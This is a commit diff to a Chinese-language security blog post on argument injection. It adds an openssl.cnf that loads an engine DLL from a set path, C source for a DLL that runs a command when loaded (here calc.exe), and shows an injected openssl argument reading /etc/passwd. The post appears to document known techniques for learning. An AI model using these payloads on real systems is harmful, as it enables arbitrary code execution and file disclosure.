

Before and after one commit to kuron3k0/kuron3k0.github.io, a Jekyll site: the page built from _posts/2020-08-12-argument-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 7311 px. Shown: the whole window, without its empty margins (233-1003 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-08-12-argument-injection.md

````diff
--- a/_posts/2020-08-12-argument-injection.md
+++ b/_posts/2020-08-12-argument-injection.md
@@ -323,6 +323,53 @@ $url = 'enc -in /etc/passwd -out /tmp/xxx';
 system(escapeshellcmd('openssl '.$url));
 ```
 
+openssl配置文件可控时，可调用恶意so或dll:
+[https://hackerone.com/reports/622170](https://hackerone.com/reports/622170)
+
+openssl.cnf
+
+```shell
+# Malicious openssl.cnf
+openssl_conf = openssl_init
+[openssl_init]
+engines = engine_section
+
+[engine_section]
+cmd = cmd_section
+
+[cmd_section]
+engine_id = cmd
+dynamic_path = c:\\usr\\local\\ssl\\calc.dll
+init = 0
+```
+
+恶意dll
+
+```c
+#include <windows.h>
+BOOL WINAPI DllMain(
+    HINSTANCE hinstDLL,
+    DWORD fdwReason,
+    LPVOID lpReserved )
+{
+    switch( fdwReason )
+    {
+        case DLL_PROCESS_ATTACH:
+            system("cmd /c calc.exe");
+            break;
+        case DLL_THREAD_ATTACH:
+         // Do thread-specific initialization.
+            break;
+        case DLL_THREAD_DETACH:
+         // Do thread-specific cleanup.
+            break;
+        case DLL_PROCESS_DETACH:
+         // Perform any necessary cleanup.
+            break;
+    }
+    return TRUE;  // Successful DLL_PROCESS_ATTACH.
+}
+```
 
 
 还有很多命令都有`-o`之类的参数，实在利用不了的话可以注入这种参数，可以作为任意文件覆盖。
````
